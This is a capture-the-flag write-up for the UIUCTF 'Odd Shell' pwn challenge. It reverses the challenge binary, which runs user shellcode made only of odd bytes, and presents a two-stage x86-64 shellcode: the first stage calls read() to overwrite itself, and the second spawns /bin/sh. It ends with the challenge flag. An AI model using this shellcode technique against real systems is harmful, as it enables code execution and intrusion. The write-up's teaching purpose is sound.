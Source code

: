 # Odd Shell

Categories: Pwn/Shellcode

Description:
> odd shell
>
>- 107 points
>
>"3D render of a merchant displaying non-euclidean objects"
>
>O ho! You found me! I have a display of oddities available to you!
>
> `nc odd-shell.chal.uiuc.tf 1337`
>
>author: Surg
>
>[chal](src/chal) [Dockerfile](src/Dockerfile) [nsjail.cfg](src/nsjail.cfg)

**Tags:** pwn, shellcode

## Takeaways

- When having shellcode, take a look at existing data in registers/stack
- Always use hardware breakpoints with self-modifying stuff

## Solution

Let's reverse engineer the source code of the challenge:

```C
#define BASE ((char*)0x123412340000)
int main(void) {
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
  setvbuf(stdin ,NULL,2,0);
  puts("Display your oddities:");

  if (mmap(BASE,0x1000,7,0x32,-1,0) != BASE) {
    puts("I can\'t allocate memory!");
    exit(-1);
  }
  long nread = read(0,BASE,0x800);
  if (*(char *)(BASE + nread - 1) == '\n') {
    *(char*)(BASE + nread - 1) = '\0';
    nread = nread - 1;
  }
  for(long i=0; i<nread; ++i) {
    if ((*(byte *)(BASE + i) & 1) == 0) { //byte must be odd
        puts("Invalid Character");
        exit(-1);
  } }

  (*(code *)BASE)(); //invoke shellcode
  return 0;
}
```

As we can see, the source code is simple. The program allocates 1 page at address `0x123412340000` as RWX, reads up to `0x800` bytes of shellcode, and then executes it. The only restriction is that each byte of the shellcode must be odd.

Let's insert a breakpoint at the instruction which jumps to the shellcode and examine the registers:

```python
from pwn import *
context.binary = elfexe = ELF('./chal')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
gdbscript = '''
# call <shellcode>
hbreak *main+0x15d
continue
'''.format(**locals())
io.recvline()
io.send(b'A\n')
io.interactive()
sys.exit(0)
```

![registers.png](resources/registers.png)

This is interesting!

`$rax` and `$rdi` are 0, and `$rsi` and `$rdx` are the shellcode base address. There seems to be a nice way to overcome the odd byte limitation! With the current registers that we have, we can directly invoke the syscall `read(STDIN_FILENO, BASE, BASE)`. If we change `$rdx` to a more sensible value, then we will effectively overwrite our current shellcode and once we return from the syscall, the overwritten shellcode will continue. Here are our payloads and an illustration:


<table>
<tr>
<td>

```x86asm
/* All bytes here are odd */
31 db           XOR        EBX,EBX
83 c3 1f        ADD        EBX,0x1f
c1 e3 05        SHL        EBX,0x3
8b d3           MOV        EDX,EBX
0f 05           SYSCALL /*read(0, BASE, 0x3e0) */
<SHELLCODE OVERWRITTEN HERE>
```
Stage 1 Shell code

</td>
<td>

```x86asm
xor     rdx, rdx
push    rdx
mov     rbx, 0x0068732f6e69622f
push    rbx
mov     rdi, rsp
push    rdx
push    rdi
mov     rsi, rsp
mov     eax, 0x3b
syscall
```
Stage 2 Shellcode. Unrestricted. Invokes `execve("/bin/sh")`.

</td>
</tr>

</table>


<table>
<tr>
<td align="center">

![before.png](resources/before.png)

`syscall` from Stage 1 is about to be executed

</td>
<td align="center">

![after.png](resources/after.png)

Exactly stepped 1 instruction. The `read()` system call<br/>
overwrote the previous shelcode and its contents afterwards.

</td>
</tr>

</table>

So, if we run the [solution.py](solution.py), we can get a shell at the remote machine and dump the flag!

`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
